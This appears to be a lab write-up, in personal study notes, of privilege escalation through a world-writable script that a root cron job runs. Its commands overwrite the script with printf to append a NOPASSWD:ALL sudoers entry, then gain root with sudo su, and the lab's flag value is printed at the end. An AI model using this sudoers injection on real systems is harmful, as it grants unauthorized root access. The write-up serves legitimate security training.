 # 🔬Cron Jobs

### Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
> * **Cron Jobs** Privilege escalation
> * Already logged on as `student` unprivileged user

```bash
whoami
groups student
ls -l
cat message
```

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> There is a “message” file in the home directory of student user. Only root user has permissions on this file. So, student user can’t even read it.

```bash
cat /etc/passwd
crontab -l
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> `student` user has no privileges and no scheduled cron jobs

### Cron Jobs Identify <a href="#cron-jobs-identify" id="cron-jobs-identify"></a>

* Find if a file with the same name exists on the system.

```bash
find / -name message
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash"><code class="lang-bash">grep -rnw /usr/ -e "/home/student/message"
<strong>    /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
</strong></code></pre>

* The file has been copied into the /tmp directory

```bash
cat /tmp/message
    Hey!! you are not root :(
```

* Observe that a file with the same name is present in `/tmp` directory. On checking closely, it is clear that this file is being overwritten every minute.

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* This means there is some script/binary which is copying this file from student home directory to /tmp directory. Search for that script. If this script is doing simple copy operation, it must have source destination of the file in it. Try to locate that by using grep command.

```bash
grep -nri "/tmp/message" /usr/
    /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
    /usr/local/share/copy.sh:3:chmod 644 /tmp/message
```

* Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
```

```bash
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

* As the script file is writable by current “student” user, it can be modified to execute our commands. This script is executed by root cron job, so it can do privileged operation.&#x20;
* But, the file can’t be modified directly as there is no text editor on the system.

```bash
vim /usr/local/share/copy.sh
bash: vim: command not found
student@attackdefense:~$ vi /usr/local/share/copy.sh
bash: vi: command not found
student@attackdefense:~$ nano /usr/local/share/copy.sh
bash: nano: command not found
```

### Privesc <a href="#privesc" id="privesc"></a>

* Every user account has read/write/execute permissions on the `copy.sh` script
* The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a_dding **student** to `sudoers` file_).
  * When the script is executed by `root` cron job (_every 1 min for this lab_), it will run commands with pivileged permissions
  * No text editors available in the lab
* Use `printf` to replace the original code with the following lines

```bash
printf '!#bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
student@attackdefense:~$ cat /usr/local/share/copy.sh
!#bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoersstudent@attackdefense:~$
```

* Check current sudoers list

```bash
sudo -l
    Matching Defaults entries for student on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
```

* There are no new entries. So, wait for 1 minute (i.e. the cron job runs every 1 minute) and check the sudoers list again. This time new entry is there.

```bash
sudo -l
    Matching Defaults entries for student on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Switch to the root user using `sudo su`and collect the flag from the root directory.

```bash
sudo su
root@attackdefense:/home/student# whoami
root
root@attackdefense:/home/student# cd /root
root@attackdefense:~# ls -l
total 4
-rw-r--r-- 1 root root 33 Nov  2  2018 flag
root@attackdefense:~# cat flag
697914df7a07bb9b718c8ed258150164
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `697914df7a07bb9b718c8ed258150164`
{% endhint %}



